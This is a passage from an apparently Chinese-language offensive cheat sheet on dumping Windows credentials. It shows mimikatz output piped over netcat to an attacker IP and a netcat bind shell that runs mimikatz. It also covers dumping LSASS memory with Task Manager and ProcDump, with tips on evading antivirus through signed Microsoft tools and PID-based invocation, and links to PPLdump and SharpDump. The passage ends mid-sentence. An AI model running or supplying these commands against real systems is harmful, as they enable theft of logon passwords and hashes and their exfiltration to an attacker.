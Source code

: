 输出传输到远程机器
```bash
# Attacker 执行
nc -lvp 4444

# Victim 执行
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit | nc.exe -vv 192.168.1.1 4444
# 192.168.1.1 为Attacker IP
```

通过 nc 远程执行
```bash
# Victim 执行
nc -lvp 443

# Attacker 执行
nc.exe -vv 192.168.1.2 443 -e mimikatz.exe
# 192.168.1.2 为 Victim IP
```

### 直接转储(Task Manager)

在任务管理器找到 lsass.exe，右键创建转储文件

### ProcDump

- https://learn.microsoft.com/zh-cn/sysinternals/downloads/procdump

procdump 是微软的官方工具，不会被杀，所以如果你的 mimikatz 不免杀，可以用 procdump 导出 lsass.dmp 后拖回本地抓取密码来规避杀软。
```
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

也可以采用 pid 方式规避杀软
```
tasklist /fi "imagename eq lsass.exe"
procdump -accepteula -ma 640 lsass.dmp
```

然后用 mimikatz 加载导出来的内存再抓 hash
```
sekurlsa::minidump c:\users\test\appdata\local\temp\lsass.dmp
sekurlsa::logonpasswords full
```

### PPLdump

- https://github.com/itm4n/PPLdump

### SharpDump

- [SharpDump](https://github.com/GhostPack/SharpDump)

在管理员权限下运行生成 debug480.bin

特别注意,dump 的文件默认是 bin 后缀,拖到本地机器以后,需要自行把 bin 重命名为 zip 的后缀,然后正常解压出里面的文件,再丢给 mimikatz 去读取即可,如下
